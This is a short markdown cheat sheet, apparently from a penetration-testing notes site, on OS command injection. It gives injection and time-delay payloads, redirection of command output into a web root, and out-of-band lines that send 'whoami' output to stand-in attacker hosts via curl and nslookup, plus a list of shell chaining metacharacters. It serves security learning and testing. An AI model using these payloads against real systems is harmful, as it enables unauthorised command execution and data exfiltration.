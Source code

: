 ```yaml
---
title: "OS command injection"
weight: 18
description: "Learn about OS command injection vulnerabilities, detection methods, and exploitation techniques. Understand how to bypass restrictions and use metacharacters for injecting commands in both Windows and Unix systems."
---
```


# OS command injection

## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
